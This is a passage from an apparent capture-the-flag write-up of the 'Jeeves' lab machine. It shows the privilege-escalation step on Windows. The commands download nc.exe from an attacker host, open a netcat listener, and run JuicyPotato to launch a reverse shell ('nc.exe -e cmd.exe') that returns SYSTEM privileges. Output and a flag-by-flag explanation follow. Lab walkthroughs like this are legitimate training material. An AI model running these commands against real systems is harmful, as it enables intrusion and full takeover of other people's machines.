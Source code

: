 ```shell
c:\Users\kohsuke\Desktop>powershell iwr -Uri http://10.10.14.26/nc.exe -OutFile nc.exe

c:\Users\kohsuke\Desktop>.\nc.exe -h
[v1.10 NT]
connect to somewhere:	nc [-options] hostname port[s] [ports] ... 
listen for inbound:	nc -l -p port [options] [hostname] [port]
options:
	-d		detach from console, stealth mode

	-e prog		inbound program to exec [dangerous!!]
	-g gateway	source-routing hop point[s], up to 8
	-G num		source-routing pointer: 4, 8, 12, ...
	-h		this cruft
	-i secs		delay interval for lines sent, ports scanned
	-l		listen mode, for inbound connects
	-L		listen harder, re-listen on socket close
	-n		numeric-only IP addresses, no DNS
	-o file		hex dump of traffic
	-p port		local port number
	-r		randomize local and remote ports
	-s addr		local source address
	-t		answer TELNET negotiation
	-u		UDP mode
	-v		verbose [use twice to be more verbose]
	-w secs		timeout for connects and final net reads
	-z		zero-I/O mode [used for scanning]
port numbers can be individual or ranges: m-n [inclusive]
```

- Setup a `nc` listener:

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Jeeves)-[2023.05.26|16:51:14(HKT)]
└> rlwrap -cAr nc -lnvp 53
listening on [any] 53 ...
```

- Run the payload:

```shell
c:\Users\kohsuke\Desktop>.\JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Users\kohsuke\Desktop\nc.exe -e cmd.exe 10.10.14.26 53" -t *
.\JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Users\kohsuke\Desktop\nc.exe -e cmd.exe 10.10.14.26 53" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

This will setup a COM server on port 1337 (`-l`), use `cmd.exe` to launch commands (`-p`), using both `CreateProcessWithTokenW` and `CreateProcessAsUser` (`-t *`), using CLSID `{4991d34b-80a1-4291-83b6-3328366b9097}` (`-c`), and command line argument to pass to program (`-a`).
